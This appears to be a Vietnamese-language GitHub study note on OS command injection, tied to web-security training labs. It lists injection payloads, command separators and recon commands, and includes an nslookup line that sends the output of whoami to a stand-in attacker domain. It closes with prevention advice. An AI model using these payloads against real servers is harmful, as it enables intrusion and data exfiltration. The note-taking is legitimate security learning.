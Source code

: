 # OS command injection

## What is OS command injection?

- OS command injection (shell injection) là một lỗ hổng web cho phép thực thi tùy ý các lệnh của hệ điều hành trên máy chủ và thường xâm phạm hoàn toàn ứng dụng và máy chủ của nó.

## Executing arbitrary commands.

- Một web hiển thị thông tin mặt hàng qua URL:
```https://insecure-website.com/stockStatus?productID=381&storeID=29```

- Dữ liệu được truyền qua các param sẽ được xử lí bằng câu lệnh : ```stockreport.pl 381 29```

- Ta chi cần truyền vào param *productID* giá trị *& echo xyz &* => câu lệnh xử lí sẽ chuyển thành ```stockreport.pl & echo xyz & 29``` => xyz được in ra nhờ lệnh echo .

- Lab:
	+ Lab: OS command injection, simple case.[exploit](exploit/lab1.py)

## Useful commands.

|Purpose of command	  | Linux	    | Windows       |
|:--------------------|:------------|:--------------|
|Name of current user | whoami	    | whoami        |
|Operating system	  | uname -a	| ver           |
|Network configuration|	ifconfig	| ipconfig /all |
|Network connections  | netstat -an	| netstat -an   |
|Running processes	  | ps -ef	    | tasklist      |

## Blind OS command injection vulnerabilities.

- Nhiều trường hợp tiêm lệnh hệ điều hành là lỗ hổng bảo mật. Điều này có nghĩa là ứng dụng không trả về kết quả đầu ra từ lệnh trong phản hồi HTTP của nó. Các lỗ hổng bảo mật vẫn có thể được khai thác, nhưng cần phải có các kỹ thuật khác nhau.

### Detecting blind OS command injection using time delays.

- Bạn có thể sử dụng một lệnh được đưa vào sẽ kích hoạt độ trễ thời gian, cho phép bạn xác nhận rằng lệnh đã được thực thi dựa trên thời gian ứng dụng cần để phản hồi .

- VD: *& ping -c 10 8.8.8.8 &*

- Lab:
	+ Lab: Blind OS command injection with time delays.[exploit](exploit/lab2.py)

### Exploiting blind OS command injection by redirecting outp.

- Bạn có thể chuyển hướng đầu ra từ lệnh được đưa vào thành một tệp trong thư mục gốc mà sau đó bạn có thể truy xuất bằng trình duyệt của mình.

```& whoami > /var/www/static/whoami.txt &```

- Lab:
	+ Lab: Blind OS command injection with output redirection.[exploit](exploit/lab3.py)

### Exploiting blind OS command injection using out-of-band (OAST) techniques.

- Bạn có thể sử dụng một lệnh để kích hoạt tương tác mạng ngoài băng tần với hệ thống mà bạn kiểm soát, sử dụng các kỹ thuật OAST.

```& nslookup kgji2ohoyw.web-attacker.com &```
or
```& nslookup `whoami`.kgji2ohoyw.web-attacker.com &```

- Lab :
	+ Lab: Blind OS command injection with out-of-band interaction.[exploit](exploit/lab4.py)
	+ Lab: Blind OS command injection with out-of-band data exfiltration.[exploit](exploit/lab5.py)

## Ways of injecting OS commands.

- Một số ký tự có chức năng như dấu phân cách lệnh, cho phép các lệnh được xâu chuỗi lại với nhau.

	+ Win and Unix : && , &, || , |
	+ Unix : ; , 0x0a , \n
	+ Thực thi shell unix : *`command`* , *${command}*

## How to prevent OS command injection attacks.

- Không nên dùng các lệnh hệ thống để xử lí các hành vi trên ứng dụng . Trong trường hợp cần sử dụng thì cần phải áp dụng các chính sách sau :

	+ Xác thực dựa trên danh sách trắng các giá trị được phép.
	+ Xác thực rằng đầu vào là một số.
	+ Xác thực rằng đầu vào chỉ chứa các ký tự chữ và số, không có cú pháp hoặc khoảng trắng nào khác.